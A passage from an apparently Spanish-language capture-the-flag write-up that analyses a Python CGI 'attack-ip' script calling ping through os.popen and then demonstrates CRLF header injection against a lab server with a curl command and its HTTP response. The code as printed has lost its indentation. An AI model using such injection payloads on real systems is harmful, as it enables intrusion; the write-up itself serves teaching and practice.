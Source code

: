 **attack-ip:**

```python
#!/usr/bin/env python3

import cgi
import os
from ipaddress import ip_address

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
count = 1 # Increase this for an actual attack
os.popen(f'ping -c {count} {ip_address(target)}')
print(f'Location: ../?result=Succesfully attacked {target}!')
except:
print(f'Location: ../?error=Hey {name}, watch it!')

print('Content-Type: text/html')
print()

```

- El funcionamiento es muy similar al caso anterior, pero con pequeñas variaciones.
- Se utiliza nuevamente el comando `ping` para "atacar" la dirección IP indicada.
- En este caso, también parece haber una inyección de comandos, pues el parámetro `target` se usa en la función `os.popen()`, pero en este caso hay una validación con la función ip_address(). Esta función genera una excepción si la cadena recibida no tiene el formato de una dirección IPv4 o IPv6 válida.
- En caso de generarse la excepción, no realiza el ataque y envía una redirección con un mensaje de error en el encabezado `Location`.

Llegados a este punto, tenía claro que el único recurso con el que podría interactuar directamente era `/cgi-bin/attack-domain` y que debía lograr interactuar con `/cgi-bin/attack-ip` (ya que su acceso estaba limitado). Aunque buscaba alguna manera de forzar un SSRF, al inicio únicamente era capaz de inyectar encabezados HTTP en la respuesta. Esto lo muestro a continuación, logrando que la respuesta incluyera el nuevo encabezado `New-Header: HFC` inyectando los caracteres de retorno de carro y salto de línea `(%0d%0a)`.

```sh
$ curl -i 'http://83.136.249.227:46378/cgi-bin/attack-domain?target=x&name=v%0d%0aNew-Header:HFC%0d%0a%0d%0a'
HTTP/1.1 302 Found
Date: Wed, 26 Mar 2025 03:14:46 GMT
Server: Apache/2.4.54 (Debian)
New-Header: HFC
Location: ../?error=Hey v
Content-Length: 282
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="../?error=Hey v">here</a>.</p>
<hr>
<--REDACTED-->
```
